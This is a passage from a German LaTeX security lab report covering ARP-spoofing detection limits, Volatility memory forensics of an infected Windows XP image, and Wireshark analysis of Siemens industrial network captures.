	\includegraphics[width=17cm]{arp-shark-packete.png}
	\caption{Wireshark Traffic einer Anmeldung}
	\label{fig:arp-shark-packete.png}
\end{figure}
\\ \\
\begin{figure}[!ht]
	\centering
	\includegraphics[width=13cm]{arp-shark-packet-5.png}
	\caption{Inhalt des 5. Pakets mit dem Passwort des Benutzers}
	\label{fig:arp-shark-packet-5}
\end{figure} 

\subsubsection{IDS gegen ARP-Spoofing}
Das eingesetzte IDS, Suricata, bietet keinen Schutz gegen und ist nicht in der Lage ARP-Spoofing zu erkennen. \\ \\
IDS arbeiten auf der OSI Schicht 3, der Netzwerkschicht \cite{layer-ids}. Das ARP-Protokoll arbeiter auf der Ebene 2, der Sicherungsschicht \cite{layer-arp},\\ \\
Um das ARP-Spoofing zu erkennen, müsste man permanent die ARP-Tabelle überwachen und kontrollieren, ob IP-Adressen doppelt vergeben werden. Diese Funktion bietet Suricata nicht.

\newpage
\section{Aufgabenblatt 4}

\subsection{Aufgabe 1}
Darstellung forensisches Vorgehen, Datensammlung, Datenanalyse, Grenzen der Analyse
\\ \\
\textbf{Welche Methodik der Forensik würden Sie zum Sichern des RAMS nutzen?}
Hier würde die Methode der Live-Forensik angewendet werden. Es wird ein Abbild des RAMs, des flüchtigen Speichers erstellt und später analysiert. \cite{ram-dump}
\\ \\
\textbf{Worauf mussten Sie bei dieser Sicherungsmethodik besonders achten?}
Das System darf nach der Infizierung und vor der Sicherung der Daten, nicht heruntergefahren oder vom Strom getrennt werden. Da die Daten im RAM sonst verloren gehen. \\ \\
Zudem muss darauf geachtet werden das die Malware zu dem Zeitpunkt der Sicherung aktiv ist, sich also weiterhin im RAM befindet.
\\ \\
\textbf{Welches Volatility-Profil sollte für das Image verwendet werden}
Das Plugin \lstinline[breaklines]|imageinfo| empfiehlt die Profile WinXPSP2x86 und WinXPSP3x86.
\begin{figure}[H]
	\centering
	
\includegraphics[width=18cm]{vol-imageinfo.png}
	\caption{Volatility: Imageinfo}
	\label{fig:vol-imageinfo}
\end{figure} 
\textbf{Welche Prozesse waren zum Zeitpunkt der Sicherung aktiv?}
Folgender Screenshot zeigt den Output des Plugins \lstinline[breaklines]|pslist|, welches laufende Prozesse zeigt:
\begin{figure}[H]
	\centering
	
\includegraphics[width=18cm]{vol-prozesse.png}
	\caption{Volatility: Laufende Prozesse}
	\label{fig:vol-prozesse}
\end{figure} 
\textbf{Gibt es versteckte Prozesse?}
Nein, das Plugin \lstinline[breaklines]|psscan|, welches auch versteckte und geschlossene Prozesse zeigen kann, zeigt keine zusätzliche Prozesse an.
\begin{figure}[H]
	\centering
	
\includegraphics[width=18cm]{vol-prozesse-verstekt.png}
	\caption{Volatility: Versteckte Prozesse}
	\label{fig:vol-prozesse-verstekt.png}
\end{figure} 
\textbf{Welche Netzwerkverbindungen bestehen bzw. bestanden? Ist etwas auffällig?}
Die Plugins \lstinline[breaklines]|connscan| und \lstinline[breaklines]|sockscan| zeigen die existierenden Verbindungen. Auffällig ist, das eine Verbindung zu einer IP-Adresse \lstinline[breaklines]|172.16.98.1| existiert welche sich im lokalen Netzwerkbereich \lstinline[breaklines]|172.16.0.0.| befindet.
\begin{figure}[H]
	\centering
	
\includegraphics[width=18cm]{vol-verbindungen.png}
	\caption{Volatility: bestehende Verbindungen}
	\label{fig:vol-verbindungen.png}
\end{figure} 
\textbf{Welche Prozesse haben welche Verbindung gestartet?}
Folgende Prozesse haben eine Verbindung auf dem jeweiligen Port gestartet:
\begin{table}[h!]
	\begin{center}
		\label{tab:process-port}
		\begin{tabular}{l|l |l }
			\textbf{PID} & \textbf{Prozess} & \textbf{Port} \\
			\hline
			1956 & explorer.exe & 1026 zu 6666 \\
			\hline
			688 & lsass.exe & 500 \\
			4 & System &  445\\
			964 & svchost.exe & 1029 \\
			1616 & alg.exe & 1025 \\
			1148 & svchost.exe & 1900 \\
			964 & svchost.exe & 123 \\
			688 & lsass.exe & 4500 \\
			688 & lsass.exe &  0 \\
			1956 & explorer.exe & 1026 \\
			916 & svchost.exe &  135\\
			4 & System &  445\\
		\end{tabular}
		\caption{Volatility: Prozesse hinter den Verbindungen}
	\end{center}
\end{table}
\textbf{Untersuchen Sie die Eingaben in der command line. Welche Kommandos wurden ausgeführt? Fällt Ihnen etwas auf?}
Auffällig ist, das der Befehl \lstinline[breaklines]|sc query malware| ausgeführt wurde. Mit dem Befehl \lstinline[breaklines]|sc| kann man Services starten, stoppen und überprüfen. In diesem Fall wurde überprüft ob der Service mit dem Namen \lstinline[breaklines]|malware| läuft. Dies wurde scheinbar als Administrator ausgeführt.
\begin{figure}[H]
	\centering
	
\includegraphics[width=18cm]{vol-cmd-history.png}
	\caption{Volatility: Eingaben in der Kommandozeile}
	\label{fig:vol-cmd-history}
\end{figure} 
\textbf{Welche verdächtigen Services sind derzeit aktiv?}
Es wurden 2 verdächtige Services identifiziert.
\\ \\
Zum einen der Service mit dem Namen \lstinline[breaklines]|malware|:
\begin{figure}[H]
	\centering
	
\includegraphics[width=13cm]{vol-sus-service1.png}
	\caption{Volatility: }
	\label{fig:vol-sus-service1}
\end{figure} 
Und der Service mit den Namen \lstinline[breaklines]|Null|:
\begin{figure}[H]
	\centering
	
\includegraphics[width=13cm]{vol-sus-service2.png}
	\caption{Volatility: Verdächtiger Service 2}
	\label{fig:vol-sus-service2.png}
\end{figure} 

\subsection{Aufgabe 2}
Vor-Ort-Unterstützung Analyse
\\ \\
\textbf{Bestimmen Sie alle Netzwerkteilnehmer (MAC, IPv4), die in den Netzwerkausschnitten auftauchen. Broadcast-Adressen können Sie ausschließen. Tipp: Betrachten Sie auch das Protokoll LLDP.}
\\
\begin{table}[H]
    \centering
    \begin{tabular}{|l|l|l|p{5cm}|}
    \hline
    \textbf{MAC-Adresse} & \textbf{Name} & \textbf{IP-Adresse} & \textbf{Datei} \\
    \hline
    00:1b:1b:f7:7c:4f & Siemens\_f7:7c:4f & 10.3.5.5 & Alle \\
    00:26:5a:e7:b7:c4 & DLink\_e7:b7:c4 & 10.3.5.1 & Alle \\
    01:00:5e:00:00:fc & IPv4mcast\_fc & 224.0.0.252 & normal.pcapng\newline
    attack6.pcapng\newline
    buttonPush.pcapng \\
    01:00:5e:05:06:07 & IPv4mcast\_05:06:07 & 234.5.6.7 & attack1.pcapng\newline
    attack6.pcapng \\
    01:00:5e:7f:ff:64 & IPv4mcast\_7f:ff:64 & 239.255.255.250 & normal.pcapng\newline buttonPush.pcapng \\
    01:80:c2:00:00:0e & LLDP\_Multicast & - & Alle \\
    28:63:36:ad:91:96 & Siemens\_ad:91:96 & 10.3.5.12 & Alle \\
    28:63:36:ad:91:97 & Siemens\_ad:91:97 & - & Alle \\
    28:63:36:ae:70:0b & Siemens\_ae:70:0b & - & Alle \\
    f4:8e:38:9f:7c:74 & Dell\_9f:7c:74 & 10.3.5.3 & Alle \\
    00:10:5a:0d:5a:a7 & 3Com\_0d:5a:a7 & 23.95.230.107\footnotemark[1] & attack1.pcapng \\
    28:63:36:ae:70:09 & Siemens\_ae:70:09 & 10.3.5.11 & attack2.pcapng\newline
    attack3.pcapng \\
    00:1b:1b:f6:8b:bd & Siemens\_f6:8b:bd & 10.3.5.6 & buttonPush.pcapng \\
    \hline
    \end{tabular}
    \caption{Netzwerkteilnehmer}
    \label{tab:ws-netzwerkteilnehmer}
\end{table}

\footnotetext[1]{Diese IP-Adresse gehört nicht unbedingt zu einem 3Com-Gerät. Sie zeigt lediglich an, dass Pakete mit dieser Zieladresse durch das 3Com-Gerät geroutet wurden. Das 3Com-Gerät fungiert in diesem Fall wahrscheinlich als Router oder Gateway im Netzwerk.}

\begin{table}[H]
    \centering
    \begin{tabular}{|l|l|l|}
    \hline
    \textbf{MAC-Adresse} & \textbf{Geräte-Typ} & \textbf{Model/Details} \\
    \hline
    00:1b:1b:f7:7c:4f & SIEMENS AG SIMATIC Field PG & M5 + engineering \\
    28:63:36:ad:91:97 & Siemens SIMATIC S7 & CPU1511-1 PN, FW: V2.0.1 \\
    28:63:36:ae:70:0b & Siemens SIMATIC S7 & CPU1512C-1 PN, FW: V2.0.1 \\
    f4:8e:38:9f:7c:74 & Dell OptiPlex & 3046 + HMI \\
    \hline
    \end{tabular}
    \caption{LLDP Informationen}
    \label{tab:ws-lldp-info}
\end{table}

\textbf{Bestimmen Sie, welche Protokolle verwendet werden.}
\\
Folgende Tabelle zeigt die verwendeten Protokolle:
\begin{table}[H]
    \centering
    \begin{tabular}{|l|p{5cm}|}
    \hline
    \textbf{Protokoll} & \textbf{Datei} \\
    \hline
    Ethernet & Alle \\
    PROFINET Real-Time Protocol & Alle \\
    PROFINET PTCP & Alle \\
    Link Layer Discovery Protocol (LLDP) & Alle \\
    Address Resolution Protocol (ARP) & Alle \\
    Internet Protocol Version 4 (IPv4) & Alle \\
    Internet Group Management Protocol (IGMP) & Alle \\
    User Datagram Protocol (UDP) & Alle \\
    Link-local Multicast Name Resolution (LLMNR) & normal.pcapng\newline
    attack6.pcapng\newline
    buttonPush.pcapng \\
    Transmission Control Protocol (TCP) & Alle \\
    TPKT - ISO on TCP (RFC1006) & Alle \\
    ISO 8073/X.224 COTP & Alle \\
    S7 Communication & attack3.pcapng \\
    Simple Service Discovery Protocol (SSDP) & normal.pcapng\newline
    buttonPush.pcapng \\
    Virtual Network Computing (VNC) & attack4.pcapng\newline
    attack5.pcapng \\
    \hline
    \end{tabular}
    \caption{Verwendte Protokolle}
    \label{tab:ws-used-protocols}
\end{table}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{diagramm-teilnehmer.png}
	\caption{Diagramm der Teilnehmer und Protokolle}
	\label{fig:diagramm-teilnehmer}
\end{figure}

\subsubsection{Phase 1}
Erstes infiziertes System (attack1.pcapng)
\\ \\
\textbf{Bei welchem System handelt es sich um das infizierte System und wieso ist dieses System verdächtig? Beachten Sie die Baseline (normal.pcapng), die Protokolle TCP und UDP sowie die verwendeten Ports.}
\\ 
Das verdächtige System ist das SIEMENS AG SIMATIC Field PG M5 des Technikers mit der IP-Adresse 10.3.5.5 (MAC: 00:1b:1b:f7:7c:4f). Dieses System zeigt auffälliges Verhalten, das von der Baseline abweicht:

\begin{itemize}
    \item Es versucht, UDP-Verbindungen zu 234.5.6.7 auf Port 8910 aufzubauen.
    \item Es initiiert mehrere TCP-Verbindungsversuche zu 23.95.230.107 auf Port 80.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{ws-suspicious-traffic.png}
    \caption{Auffälliger Netzwerkverkehr des infizierten Systems}
    \label{fig:ws-suspicious-traffic}
\end{figure}
\textbf{Wann hat der Rechner sich versucht mit einem Host außerhalb des Netzwerks zu verbinden?}
\\
Das System versucht, UDP-Verbindungen zur Adresse 234.5.6.7 auf Port 8910 aufzubauen. Diese IP-Adresse gehört zum reservierten Bereich für Multicast-Adressen (224.0.0.0 bis 239.255.255.255). Obwohl es sich nicht um eine Kommunikation mit einem externen Host handelt, ist dieses Verhalten dennoch auffällig.
\\ \\
Am 8. Juni 2018 um 13:46:52.993988000 CEST initiiert das System einen TCP-Verbindungsversuch (SYN-Paket) zu einem tatsächlich externen Host (23.95.230.107) auf Port 80. Dies ist der erste beobachtete Versuch, eine Verbindung außerhalb des lokalen Netzwerks herzustellen.

\subsubsection{Phase 2}
Lateral Movement – Offline Modus (attack2.pcapng)
\\ \\
\textbf{Welche Auffälligkeiten sehen Sie in diesem Mitschnitt? Welches Protokoll wird häufig verwendet?}
\\
In diesem Mitschnitt ist das Address Resolution Protocol (ARP) auffällig dominant. Es macht 53,7\% aller Pakete aus, was auf einen intensiven Netzwerk-Scan hindeutet. Außerdem werden zahlreiche TCP-Verbindungsversuche zu verschiedenen Ports der Systeme 10.3.5.11 und 10.3.5.12 beobachtet.

\begin{figure}[H]
    \centering
